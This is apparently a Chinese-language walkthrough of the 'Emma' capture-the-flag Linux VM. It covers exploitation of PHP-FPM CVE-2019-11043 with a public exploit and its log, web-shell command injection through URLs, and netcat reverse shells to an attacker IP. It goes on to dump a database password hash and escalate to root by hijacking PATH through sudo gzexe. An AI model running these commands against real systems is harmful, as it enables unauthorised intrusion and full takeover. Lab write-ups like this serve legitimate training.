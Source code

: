 # Emma

:::note

[Linux VM] [Tested on VirtualBox] created by || sml

⏲️ Release Date // 2021-02-04

✔️ MD5 // 43b7626e2d43405be800ca0c0abb30b6

☠ Root // 50

💀 User // 55

📝Notes //
Hack and Fun!

:::

## 靶机启动

靶机 IP

```plaintext
192.168.56.113
```

## nmap 信息搜集

```plaintext
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 4a:4c:af:92:cc:bb:99:59:d7:2f:1b:99:fb:f1:7c:f0 (RSA)
|   256 ba:0d:85:69:43:86:c1:91:7c:db:2a:1e:34:ab:68:1e (ECDSA)
|_  256 a1:ac:2c:ce:f4:07:da:96:12:74:d1:54:9e:f7:09:04 (ED25519)
80/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
```

## web 服务

尝试直接目录爆破

```plaintext
[10:46:34] 200 -    0B  - /index.php
[10:46:34] 200 -    0B  - /index.php/login/
[10:46:43] 200 -   58KB - /phpinfo.php
[10:46:47] 200 -   15B  - /robots.txt
```

访问 `/robots.txt` 得到

```plaintext
itwasonlyakiss
```

访问 `/phpinfo.php`，得到以下版本信息

```plaintext
PHP Version 7.1.33dev
```

根据版本信息进行查找，可以定位到这个漏洞

```plaintext
CVE-2019-11043
```

### 漏洞利用

采用 [neex/phuip-fpizdam: Exploit for CVE-2019-11043](https://github.com/neex/phuip-fpizdam)

```shell
randark@developer:~/code/VNCTF-OnlyLocalSql$ docker run --rm ypereirareis/cve-2019-11043 http://192.168.56.113/index.php
2024/02/18 05:51:03 Base status code is 200
2024/02/18 05:51:05 Status code 502 for qsl=1765, adding as a candidate
2024/02/18 05:51:07 The target is probably vulnerable. Possible QSLs: [1755 1760 1765]
2024/02/18 05:52:15 Attack params found: --qsl 1755 --pisos 22 --skip-detect
2024/02/18 05:52:15 Trying to set "session.auto_start=0"...
2024/02/18 05:52:18 Detect() returned attack params: --qsl 1755 --pisos 22 --skip-detect <-- REMEMBER THIS
2024/02/18 05:52:18 Performing attack using php.ini settings...
2024/02/18 05:52:20 Success! Was able to execute a command by appending "?a=/bin/sh+-c+'which+which'&" to URLs
2024/02/18 05:52:20 Trying to cleanup /tmp/a...
2024/02/18 05:52:20 Done!
```

可以看到 webshell 被成功植入，尝试利用

```shell
randark@developer:~/code/VNCTF-OnlyLocalSql$ curl http://192.168.56.113/index.php?a=/bin/bash+-c+whoami
www-data
```

## User - www-data

```shell
# http://192.168.56.113/index.php?a=/bin/sh+-c+%27id;nc%20-c%20bash%20192.168.56.102%209999%27&\
┌─[randark@parrot]─[~]
└──╼ $pwncat-cs -lp 9999
[13:55:11] Welcome to pwncat 🐈!
[13:57:01] received connection from 192.168.56.113:49336
[13:57:01] 192.168.56.113:49336: registered new host w/ db
(local) pwncat$ back
(remote) www-data@emma:/var/www/html$ whoami
www-data
```

### 数据库访问

采用 web 服务 `/robots.txt` 返回的 `itwasonlyakiss` 作为密码

```sql
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| users              |
+--------------------+

MariaDB [users]> show tables;
+-----------------+
| Tables_in_users |
+-----------------+
| users           |
+-----------------+

MariaDB [users]> select * from users;
+----+------+----------------------------------+
| id | user | pass                             |
+----+------+----------------------------------+
|  1 | emma | 5f4dcc3b5aa765d61d8327deb882cf80 |
+----+------+----------------------------------+
```

得到

```plaintext
emma:5f4dcc3b5aa765d61d8327deb882cf80
```

## User - emma

```shell
┌─[randark@parrot]─[~]
└──╼ $pwncat-cs emma@192.168.56.113
[14:54:09] Welcome to pwncat 🐈!
Password: ********************************
[14:54:12] 192.168.56.113:22: normalizing shell path
           192.168.56.113:22: registered new host w/ db
(local) pwncat$ back
(remote) emma@emma:/home/emma$ whoami
emma
```

### flag - user

```shell
(remote) emma@emma:/home/emma$ cat user.txt
youdontknowme
```

### 环境探测

```plaintext title="sudo -l"
Matching Defaults entries for emma on emma:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User emma may run the following commands on emma:
    (ALL : ALL) NOPASSWD: /usr/bin/gzexe
```

同时用户目录下存在 suid 程序

```plaintext title="ls -lah"
(remote) emma@emma:/home/emma$ ls -lah
total 68K
drwxr-xr-x 4 emma emma 4.0K Feb 18 03:48 .
drwxr-xr-x 3 root root 4.0K Feb  4  2021 ..
-rw------- 1 emma emma    5 Feb 18 03:48 .bash_history
-rw-r--r-- 1 emma emma  220 Feb  4  2021 .bash_logout
-rw-r--r-- 1 emma emma 3.5K Feb  4  2021 .bashrc
-rwx------ 1 emma emma 1.9K Feb  4  2021 flag.sh
drwx------ 3 emma emma 4.0K Feb 18 01:54 .gnupg
drwxr-xr-x 3 emma emma 4.0K Feb  4  2021 .local
-rw-r--r-- 1 emma emma  807 Feb  4  2021 .profile
-rw------- 1 emma emma   14 Feb  4  2021 user.txt
-rwsr-s--- 1 root emma  17K Feb  4  2021 who
-rw-r--r-- 1 emma emma  185 Feb  4  2021 who.c
-rw------- 1 emma emma   50 Feb  4  2021 .Xauthority
```

查看`who`程序的源码

```c title="who.c"
#include <stdio.h>
#include <stdlib.h>
void main(){
    setuid(0);
    setgid(0);
    printf("Im \n");
    system("/bin/id");
    setuid(1000);
    setgid(1000);
    printf("But now Im \n");
    system("/bin/id");
}
```

由于 `gzexe` 压缩程序后，再运行被压缩的程序，就会调用一次 `unzip`，所以可以先对 `id` 进行压缩操作，然后将恶意载荷植入 `unzip` 中，就可以实现提权

## User - root

```shell
emma@emma:~$ sudo -u root /usr/bin/gzexe /bin/id
emma@emma:~$ cd /tmp
emma@emma:/tmp$ echo "nc -e /bin/bash 192.168.56.102 7777" > gzip
emma@emma:/tmp$ chmod +x gzip
emma@emma:/tmp$ export PATH=/tmp:$PATH
emma@emma:/tmp$ cd
emma@emma:~$ ./who
```

### flag - root

```plaintext

```